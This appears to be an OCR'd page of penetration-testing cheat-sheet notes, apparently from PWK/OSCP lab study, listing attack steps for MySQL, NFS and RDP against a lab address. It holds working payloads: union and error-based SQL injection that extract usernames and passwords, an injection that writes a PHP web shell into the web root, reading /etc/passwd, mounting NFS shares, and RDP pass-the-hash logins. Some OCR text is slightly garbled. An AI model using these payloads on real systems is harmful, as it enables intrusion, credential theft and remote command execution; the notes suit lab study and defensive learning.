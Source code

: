 # MySQL/Maria DB

```
1: mysql -host 10.10.10.10 -u root -proot ( **Credential** stored in **Web config** file)
2: telnet 10.10.10.10 3306
3: cat /etc/my.cnf
4: **UDF** to RCE
###Ref: **Banzai** , **PWK Textbook Lab**
5: Get **version** : select version();, select @@version();
6: Get **user:** select user();
7: Get **database name** : select database();
8: **Union SQLi:**
a: Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from
information_schema.tables
b: Union Select 1,2,3,4,column_name from information_schema.columns
where table_name="user"
9: Use SQLi to **write a backdoor** : **' UNION SELECT ("<?php echo
passthru($_GET['cmd']);") INTO OUTFILE 'var/www/html/cmd.php' ---'**
10: **Error-based SQLi:**
a: ' AND (SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username
FROM users LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES
GROUP BY x)a)---,
b: ' AND (SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT password
FROM users LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES
GROUP BY x)a)---
10: **Read file:** select load_file('/etc/passwd');
```



# NFS

2021 年 8 月 2 日 22:24

1: nmap --script nfs* 10.10.10.10
2: **showmount -e 10.10.10.10**
3: **mount -10.10.10.10:/dir /tmp**





# RDP

**Enumeration**
1:nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-
info" -p 3389 -T4 10.10.10.10
2: python rdp_check hutch/victim:123123@10.10.10.10

**Connect to RDP**
1: rdesktop 10.10.10.10
2: xfreerdp /u:[hutch\]victim /p:123123 /v:10.10.10.10
3: xfreerdp /u:[hutch\]victim /pth:[hash] /v:10.10.10.10
